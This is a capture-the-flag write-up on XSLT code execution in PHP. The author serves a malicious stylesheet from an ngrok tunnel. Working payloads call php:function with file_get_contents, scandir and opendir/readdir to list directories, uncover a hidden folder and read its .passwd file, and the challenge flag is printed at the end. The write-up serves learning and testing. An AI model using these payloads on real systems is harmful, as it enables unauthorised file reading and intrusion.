 ```yaml
---
layout: default
title: XSLT-Code-execution
---
```


Here we can supply our own schema, and by this way get `RCE`.
In my case, this is the payload I supply:
```
https://b39990dfa400.ngrok-free.app/shell.xsl
```
I used ngrok tunnel and also set a http server, to serve `shell.xsl`.

The first payload I try is the `RCE` from payload All the things, to get file-content.

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl"
  extension-element-prefixes="php">

  <xsl:template match="/">
    <xsl:value-of select="php:function('file_get_contents', 'index.php')"/>
  </xsl:template>

</xsl:stylesheet>
```

It's working, so I tried to get the files in directory, using `scandir`:
```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl"
  extension-element-prefixes="php">

  <xsl:template match="/">
    <xsl:value-of select="php:function('scandir', '.')"/>
  </xsl:template>

</xsl:stylesheet>
```
I getting only `Array`, and can't get whole files... I tried different approaches and faced dead end.

Then, I encounter this [stackexchange - execute-a-php-function-that-returns-an-array-from-an-xsl-file](https://security.stackexchange.com/questions/170712/execute-a-php-function-that-returns-an-array-from-an-xsl-file), and there i could find the `opendir` and `readdir` trick.

this is what I supply:
```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl"
  extension-element-prefixes="php">
 
  <xsl:template match="/">
    <xsl:value-of select="php:function('opendir','.')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
  </xsl:template>

</xsl:stylesheet>
```

And this is what we got:
```
<?xml version="1.0"?>
Resource id #6..beers.xml._nginx.http-level.inc.gitstyle1.xsl._nginx.server-level.incstyle2.xsl._firewall._perms.style3.xslindex.php._php-fpm.pool.inc.6ff3200bee785801f420fba826ffcdeefalsefalsefalsefalsefalsefalsefalsefalsefalsefalsefalse
```
So, the files\directories in this folder are:
```
..
beers.xml
._nginx.http-level.inc
.git
style1.xsl
._nginx.server-level.inc
style2.xsl
._firewall._perms.
style3.xsl
index.php
._php-fpm.pool.inc
.6ff3200bee785801f420fba826ffcdee
```
and we can see this `6ff3200bee785801f420fba826ffcdee` which is looks like the hidden folder

So, we try to see the files in the folder
```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl"
  extension-element-prefixes="php">
 
  <xsl:template match="/">
    <xsl:value-of select="php:function('opendir','.6ff3200bee785801f420fba826ffcdee')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
  </xsl:template>

</xsl:stylesheet>
```
And we get:
```
Resource id #6...passwd.false
```

Which gives us the files:
```
.
..
.passwd
```

Now, we only need to read it:
```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl"
  extension-element-prefixes="php">

  <xsl:template match="/">
    <xsl:value-of select="php:function('file_get_contents', '.6ff3200bee785801f420fba826ffcdee/.passwd')"/>
  </xsl:template>

</xsl:stylesheet>
```

And we get the FLAG!
![FINAL](./images/XSLT-Code-execution_FINAL.png)

**Flag:** **_`X5L7_R0ckS`_**
